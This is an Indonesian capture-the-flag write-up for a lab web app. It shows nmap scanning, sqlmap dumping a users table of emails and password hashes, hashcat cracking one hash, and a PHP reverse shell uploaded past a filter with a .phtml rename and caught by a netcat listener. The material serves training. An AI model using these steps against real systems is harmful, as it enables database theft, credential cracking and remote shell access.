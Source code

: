 lakukan scanning dengan nmap
```
nmap -sC -sV -Pn IP-target
...
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...                                                                  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                  
...
```

ternyata hanya 2 port yang terbuka, selanjutnya kita coba buka di browser karena terdapat port http `http://IP-target`. Setelah membukanya di browser, ternyata langsung masuk ke login page. Namun kita tidak bisa melakukan sqli pada login page tersebut, jadi kita akan melakukan registrasi.

Setelah melakukan regist, buka burpsuite dan siapkan untuk intercept. Kembali ke web, masukkan email dan password hasil registrasi sebelumnya dalam web. Selanjutnya klik login, maka kita akan kembali ke burpsuit. Kita save request yang telah kita lakukan saat login barusan. dengan cara klik kanan pada field dibawah intercept, lalu pilih save. contoh: save menjadi `request.txt`.

Tahap selanjutnya kita akan menggunakan SQLMap.
```
sqlmap -r request.txt --dbs -dump
```
selanjutnya akan ada beberapa prompt setting, kita bisa langsung mengikuti defaultnya saja. contoh `(Y/n)` huruf kapital merupakan default, jadi bisa langsung input `y` dan enter.

berikut adalah jawaban dari soal pertama dengan simbol "`***_*****`" yang menjawab tentang field apa yang injectable. silakan dicari pada hasil enumerasi yang telah kamu lakukan dengan sqlmap.
```
...
[13:39:52] [INFO] testing if the target URL content is stable 
[13:39:53] [WARNING] POST parameter '***_*****' does not appear to be dynamic
[13:39:53] [WARNING] heuristic (basic) test shows that POST parameter '***_*****' might not be injectable                            
[13:39:53] [INFO] heuristic (XSS) test shows that POST parameter '***_*****' might be vulnerable to cross-site scripting (XSS) attacks
[13:39:53] [INFO] testing for SQL injection on POST parameter '***_*****'
[13:39:53] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:39:54] [WARNING] reflective value(s) found and filtering out
[13:39:56] [INFO] POST parameter '***_*****' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
...
```

Selanjutnya disini kita mendapatkan banyak sekali tabel, tapi tabel yang paling menarik adalah tabel users.
```
[10 entries]
+----+------------------------+---------------------------------------------------+-----------------------+----------------+-------->
| id | email                  | password                                          | username              | last_name      | num_lik>
+----+------------------------+---------------------------------------------------+-----------------------+----------------+-------->
| 1  | ******@shefesh.com     | f1267830a78c0b59acc06b05694b2e28 | santa_claus           | Claus          | 2      >
| 2  | mmtoe@shefesh.com      | 402223cb4df4c5050a38043d38b1372b | mommy_mistletoe       | Mistletoe      | 0      >
| 3  | terminator@shefesh.com | 78a6d0e6c73a29ef6d07d56f32f67b30 | arnold_schwarzenegger | Schwarzenegger | 0      >
| 4  | jayfkay@shefesh.com    | bc808149a93bc7050c3c6c4b7a5a0c97 | johnfortnite_kennedy  | Kennedy        | 0      >
| 5  | john@keepingit.online  | aa4e356d1509f1c1f53e0191601cde72 | john_richardson       | Richardson     | 1      >
| 6  | notty@shefesh.com      | 6aff5ae0718de8945a3f71ba4d1ca76f | naughty_elf           | Elf            | 0      >
| 7  | felixnav@shefesh.com   | 57e9eb182943223b0b4e7f17c5e4cb6e | felix_navidad         | Navidad        | 0      >
| 8  | mrsclaus@shefesh.com   | 15bc4f3ba871b2fa651363dcddfb27d9 | jessica_claus         | Claus          | 0      >
| 9  | mailman@shefesh.com    | a60c0662c54bde0301d9aa2ad86203df | myron_larabee         | Larabee        | 0      >
| 10 | a@a.com                | 040b7cf4a55014e185813e0644502ea9 | 1234_1234             | 1234           | 0      >
+----+------------------------+------------------------------------------+-----------------------+----------------+-----------+----->
```

password yang ada masih berbentuk hash. Kita dapat crack password menggunakan tools online seperti [crackstation](https://crackstation.net/) atau menggunakan `hashcat` seperti berikut
```
#contoh password santa
hashcat -a 0 -m 0 "f1267830a78c0b59acc06b05694b2e28" /usr/share/wordlists/rockyou.txt 
...
...
f1267830a78c0b59acc06b05694b2e28:***********
...
```

untuk pertanyaan kedua tentang email dan plain text password dari Santa, dapat dilihat pada tabel user yang didapat, dan hasil crack hash.

selanjutnya login menggunakan akun Santa. Pergi ke messages dengan cara klik icon surat pada kanan atas dan klik surat dari Mommy Mistletoe.

untuk pertanyaan terakhir, kita akan menggunakan revshell. Kita akan menggunakan revshell dari [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Jangan lupa untuk mengubah bagian
```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
menjadi IP-lokal tun0 dan PORT sesuai keinginan.

selanjutnya kita coba upload langsung pada post langsung. Namun, ternyata PHP file di block dengan adanya warning "`Naughty! You aren't allowed to upload php files here`". Kita bisa coba untuk mengganti extensi filenya. Hidupkan intercept pada burpsuite, selanjutnya upload seperti biasa, dan klik post, nantinya kita akan masuk ke burpsuite lagi. Kali ini kita bisa mencoba mengganti ekstensinya dari `.php` ke `.phtml`.
```
... # before
-----WebKitFormBoundaryXQZr9pTNSPQJ7tFb
Content-Disposition: form-data; name="fileToUpload"; filename="php-reverse-shell.php"
Content-Type: application/x-php
...
```

```
... # after
-----WebKitFormBoundaryXQZr9pTNSPQJ7tFb
Content-Disposition: form-data; name="fileToUpload"; filename="php-reverse-shell.phtml"
Content-Type: application/x-php
...
```

lalu klik forward terus sampai request yang muncul di burpsuite habis, dan ketika di cek ternyata sudah berhasil untuk upload. selanjutnya kita bisa setup netcat listener pada port sesuai yang telah disetting.
```
nc -lvnp PORT
```

selanjutnya klik pada icon gambar rusak pada post yang barusan dibuat (bisa juga dengan klik kanan pada icon dan open in new tab). nantinya akan muncul shell session pada netcat.

Setelah berhasil terkoneksi, kita dapat melihat flag untuk menjawab pertanyaan terakhir di `/home/user/flag.txt`.